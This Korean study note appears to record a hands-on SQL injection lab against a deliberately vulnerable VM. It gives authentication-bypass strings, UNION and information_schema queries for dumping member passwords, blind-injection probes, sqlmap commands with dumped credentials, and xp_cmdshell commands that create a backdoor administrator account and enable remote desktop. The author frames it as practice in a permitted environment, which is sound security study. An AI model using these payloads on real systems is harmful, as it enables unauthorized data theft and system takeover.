

웹 애플리케이션이 데이터베이스에 날리는 SQL을 개발자가 의도하지 않은 형태로 조작 · 공격


## 참고

- Git에는 SQL Injection에 사용될만한 명령어들을 종합해둔 사이트가 존재하여, 이를 참고해 SQL 취약점 존재 여부를 확인해볼 수 있다.
- 다만 실제 운영 중인 웹사이트에서는 취약점 존재 여부를 시도하는 것 자체가 위험하므로, **공격이 허용된 임의 환경**에서만 시도했다.

---

## 1. 주석(Comment)을 이용한 인증 우회

취약한 웹사이트의 ID/PASSWORD 입력란에서 DB 구문 문법을 활용해 공격하는 방식. ID 값에 아래와 같은 구문을 넣으면 PASSWORD 조건이 통째로 주석 처리되어, PASSWORD가 공백/빈칸만 아니면 로그인이 가능해진다.

### 예시 ID 값

```
' or 1=1--
' or 2=2--
true'or3=3--
```

### 주석 처리 방식 (DBMS별)

| 구문     | DBMS          |
| ------ | ------------- |
| `--`   | MSSQL, Oracle |
| `#`    | MySQL         |
| `-- -` | DBMS 무관 전체 공통 |

DB 스키마/테이블 값 조회 화면 예시:

  


---

## 2. Error Base SQL Injection

응답 에러 메시지를 통해 정보를 획득하여 공격하는 SQL 공격 기법. 사이트 내 검색이 `SELECT`/`WHERE`로 동작하는 점을 이용해 DB 스키마/테이블 값에 접근한다.

취약점이 많은 웹사이트에 아래 구문을 입력하면 숨겨진 필드에서 드래그 시 ERROR 메시지가 노출된다.


```sql
having 1=1--
group by ~--
```

- `having 1=1--`: 숨겨진 컬럼 값(예: `chapter1.idx`)이 드러나면서 순차적으로 정보에 접근 가능
- `group by ~--`: 이런 식으로 계속 트래킹하다 보면 `chapter1.level_idx`, `chapter1.ref_idx` 등 여러 컬럼 데이터 값을 확인할 수 있음


---

## 3. Union SQL Injection

`UNION` 구문으로 테이블 2개의 내용을 동시에 출력할 수 있는 점을 이용해, 공격자가 알고 있는 DB 테이블의 데이터를 조회하는 공격.

> `UNION`으로 연결하는 컬럼의 타입과 개수가 동일해야 함


```sql
UNION SELECT 1,2,3,4,5,6,7 FROM member--
UNION SELECT 1,2,3,null,null,null,null FROM member--
UNION SELECT 1,2,3,m_id,m_name,NULL,NULL FROM member--
```

---

## 4. information_schema를 이용한 DB 정보 획득

MySQL, MSSQL 등에서는 `information_schema` DB에 전체 DB 정보(테이블/컬럼 목록 등)가 저장되어 있음.

### information_schema.columns 테이블 활용

**전체 테이블/컬럼명 조회**


```sql
UNION SELECT 1,2,3,table_name,column_name,NULL,NULL FROM information_schema.columns--
```


**특정 테이블(member)의 컬럼명만 조회**

```sql
UNION SELECT 1,2,3,column_name,NULL,NULL,NULL FROM information_schema.columns WHERE table_name = 'member'--
```


**실제 데이터 조회 (member 테이블)**


```sql
UNION SELECT 1,2,3,m_id,m_pwd,m_name,NULL,NULL FROM member--
```


---


## 5. Blind SQL Injection

쿼리 결과가 **참/거짓**인지에 따라 정보를 획득하는 공격 기법.

### 5.1
```sql
attacker' and 1=1--   -- 참 구문
attacker' and 1=2--   -- 거짓 구문
```//

substring('abcdef',1,2); -> ab
substring('abcdef',2,1); -> b

attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS VARCHAR(20)),6,1)) >= ASCII('a')--


-- dm_name의 첫 개행을 a보다 클 경우 모두 true를 반환하여 DB 구문을 공격하는 기법
-- ASCII 'a'보다 작지 않는 특수문자를 제외한 모두 true 값 반환


첫 글자 l.. -> 노가다로 'lecture' db name get!!
```


### 5.2
```sql
다른 구문
%' and '1%'='1--
%' and '1%'='1
%' and 'a%'='a
%' and '1%'='1
```


### 5.3
모든 파라미터를 대상으로 파라미터 취약점을 찾아야함.
Web URL 파라미터를 통해서 위 값을 공격해볼 수 있다.

- idx = 543에서 POST 값의 파라미터 변조로 사용할 수 있음

- idx=543%' and 'a%'='b 이렇게 거짓 구문 삽입 시 아래와 같은 반응도 볼 수 있다.
- 


---

## 6. SQLMAP 
- sqlmap 자동화 도구

python sqlmap.py -r 1.txt -p keyword
- keyword는 sql 파라미터 값
- 1.txt는 keyword 값이 들어있는 텍스트 파일
- 경로 : 'C:\Users\우하민\AppData\Local\sqlmap\output\192.168.63.132'
	- 값에 따른 로그가 저장 위치


> OS, DB 정보를 찾게 되었음.

python sqlmap.py -r 1.txt --dbs --dbms="Microsoft SQL Server 2005" -p keyword(파라미터)

- --dbs : DB의 정보를 알 수 있게 해주는 명령어

출력 결과 >>


- 공격 대상 순서는 DB -> TABLE -> COLUMN
-  공격 대상 DB는 `BOARD`
	- python sqlmap.py -r 1.txt --tables -D board --dbms="Microsoft SQL Server 2005" -p keyword


- 공격 대상 member
	-  python sqlmap.py -r 1.txt --columns -D board -T member --dbms="Microsoft SQL Server 2005" -p keyword


- 공격 대상 bID, bName, bPass
	- python sqlmap.py -r 1.txt --dump -D board -T member -C bID,bName,bPass --dbms="Microsoft SQL Server 2005" -p keyword

```sql
+-------+---------+--------+
| bID   | bName   | bPass  |
+-------+---------+--------+
| aaaa  | ?\xb1浿 | aaaa   |
| admin | 관리자  | sec123 |
| bbbb  | 이순신  | bbbb   |
| test  | test    | test   |
| test  | test    | test   |
+-------+---------+--------+
```

---

## 7. Stored Proceduer SQL Injection

- DBMS의 Stored Procedure를 공격자가 호출하여 시스템 명령어를 수행할 수 있는 공격

- MSSQL xp_cmdshell 가장 유명한 공격 대상
	- xp_cmdshell : 관리자 권한으로 시스템 명령어 실행 가능
- ';exec master.dbo.xp_cmdshell 'ipconfig /all > D:\wwwroot\board\ip.txt'--


- ';exec master.dbo.xp_cmdshell 'ipconfig /all > D:\wwwroot\board\ip.txt'-- echo > netuser


#### 백도어 계정 생성, 관리자 권한 몰래주기, RDP ON

'; exec master.dbo.xp_cmdshell 'net user hacker hacker /add'--
'; exec master.dbo.xp_cmdshell 'net localgroup administrators hacker /add'--


오... 신기하게도 webhackingzone VM 환경에서 `hacker` 계정이 생성되고 `administrators` 그룹에 `hacker` 계정이 추가되었다...!!


**원격 접속**

원격 데스크탑 키는 명령어
'; exec master.dbo.xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'--
- reg 를 건드는 설정 값 데이터베이스
- 

1. Host PC - rdp(원격 데스크톱 연결)
2. 공격할 대상 ip 입력(192.168.63.132)
3. 생성한 `hacker` `hacker` 입력 후 접속


